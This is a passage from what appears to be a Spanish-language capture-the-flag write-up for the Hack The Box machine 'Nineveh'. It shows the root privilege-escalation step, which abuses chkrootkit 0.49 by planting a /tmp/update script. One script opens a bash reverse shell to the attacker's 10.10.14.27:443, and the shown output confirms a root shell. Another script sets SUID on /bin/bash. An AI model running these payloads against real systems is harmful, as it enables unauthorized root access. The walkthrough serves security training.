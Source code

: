 ```bash
❯ searchsploit chkrootkit
----------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                 |  Path
----------------------------------------------------------------------------------------------- ---------------------------------
Chkrootkit - Local Privilege Escalation (Metasploit)                                           | linux/local/38775.rb
Chkrootkit 0.49 - Local Privilege Escalation                                                   | linux/local/33899.txt
----------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
```

Si leemos el archivo `linux/local/33899.txt` nos indica que debemos poner un archivo ejecutable con nombre `update` dentro del directorio `/tmp` y posteriormente ejecutar `chkrootkit` (en este caso, ya el usuario **root** lo hace por nosotros). Por lo que debemos crear un el archivo `update`:

```bash
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.27/443 0>&1
```

Le damos permisos de ejecución y nos ponemos en escucha por el puerto 443:

```bash
❯ nc -nlvp 443
listening on [any] 443 ...
connect to [10.10.14.27] from (UNKNOWN) [10.10.10.43] 56474
bash: cannot set terminal process group (18487): Inappropriate ioctl for device
bash: no job control in this shell
root@nineveh:~# whoami
whoami
root
root@nineveh:~# 
```

Ya somos el usuario **root** y podemos visualizar la flag (root.txt). Otra forma más cómoda sería asignarle permisos SUID a la `/bin/bash`:

```bash
#!/bin/bash

chmod u+s /bin/bash
```

Esperamos un rato y vemos que se han aplicado los permisos y accedemos como el usuario **root**:

```bash
amrois@nineveh:/tmp$ ls -l /bin/bash
-rwsr-xr-x 1 root root 1037528 Jun 24  2016 /bin/bash
amrois@nineveh:/tmp$ bash -p
bash-4.3# whoami
root
bash-4.3#
```


